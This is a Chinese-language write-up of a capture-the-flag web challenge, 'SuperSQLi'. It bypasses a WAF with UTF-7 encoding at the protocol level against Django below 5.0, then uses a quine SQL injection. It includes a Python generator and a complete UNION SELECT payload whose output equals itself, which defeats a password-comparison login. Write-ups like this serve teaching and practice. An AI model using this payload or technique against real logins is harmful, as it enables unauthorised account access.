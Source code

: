 # SuperSQLi WriteUp

一道比较常规的SQLi题目

预期考点: 协议层WAF绕过, Quine SQLi

参考 [Break the Wall from bottom: Automated Discovery of Protocol-Level Evasion Vulnerabilities in Web Application Firewalls](https://eki.im/publication/wafmanis-paper/)

Django < 5.0

![alt text](image.png)

可以使用utf7编码进行绕过，这样就可以为所欲为了（bushi

由于数据库中没有用户，而判断登陆成功的方法是要求提交的password和数据库拿到的password一致，因此需要使得联合注入得到的结果等于联合注入表达式本身。

通过替换的方式构造

```python
def quine(query: str) -> str:
    query = query.replace('$$', "REPLACE(REPLACE($$,CHAR(34),CHAR(39)),CHAR(36),$$)")
    blob = query.replace('$$', '"$"').replace("'", '"')
    query = query.replace('$$', "'" + blob + "'")
    return query
```

```SQL
'UNION SELECT 1,'admin',REPLACE(REPLACE('"UNION SELECT 1,"admin",REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$");-- ',CHAR(34),CHAR(39)),CHAR(36),'"UNION SELECT 1,"admin",REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$");-- ');--
```